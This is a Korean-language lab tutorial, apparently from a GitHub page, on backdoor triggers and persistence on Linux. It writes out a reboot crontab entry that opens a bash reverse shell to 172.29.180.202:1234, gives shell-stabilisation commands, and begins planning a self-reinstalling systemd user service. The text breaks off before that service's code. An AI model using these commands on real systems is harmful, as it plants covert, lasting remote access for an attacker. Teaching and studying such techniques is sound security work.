 # 트리거 설정 & 지속성 확보

백도어는 단순히 삽입되었다는 사실보다,  
언제 작동하고, 얼마나 오래 생존하느냐가 실제 위험성과 직결된다.

<br>

### 트리거 (Triggering)
- 트리거는 백도어가 언제 작동할지 결정하는 조건이다.
- 공격자는 백도어가 항상 실행되는 구조보다, 특정 이벤트가 발생했을 때 실행되도록 설정하여 은폐성과 생존 가능성을 높인다.
- 이번 실습에서는 `crontab`을 활용한 백도어 구조를 구성해본다.
<br>

### 지속성 (Persistence)
- 지속성은 백도어가 시스템 재부팅, 파일 삭제 등 이후에도 살아남도록 유지되는 능력이다.
- 이를 통해 장기적인 통제 권한을 얻을 수 있다.

<br>
<br>

### 백도어 구현  
- **상황** : 리눅스에서 일반 사용자 계정에 일시적인 쉘 접근 권한을 가진 상태.
- **목표** : kali 사용자가 재부팅 할 때마다 공격자의 서버로 리버스 쉘을 연결하도록 만들기.
- **방법** : `crontab`을 통한 악성코드 파일 등록 스케줄 등록
<br>

`crontab`에 재부팅시 `bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'` 를 실행하는 스케줄을 등록해줄 것이다.  

그리고 `crontab` 으로 systemd 서비스가 삭제되었는지 특정 시기마다 확인하고, 다시 설치하는 스크립트를 짜보겠다.   

이렇게 시간 기반 트리거와 지속성을 확보할 수 있다.  

<br>

**1. 우선 쉘 안정화를 시켜준다.**   

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl Z
stty raw -echo; fg
stty rows 38 columns 116
```

<br>

**2. 이제 `systemd`에 서비스부터 구현해주자.**  

`systemd`에 서비스 등록은 대부분 sudo 권한이 필요하지만  
일반 사용자 로그인마다 작동하는 서비스는 사용자 권한으로도 충분히 구현가능하다.  

- root 권한 : `/etc/systemd/system/`
- 사용자 권한 : `~/.config/systemd/user/`

위 경로에서 작동하니 참고해주자.  
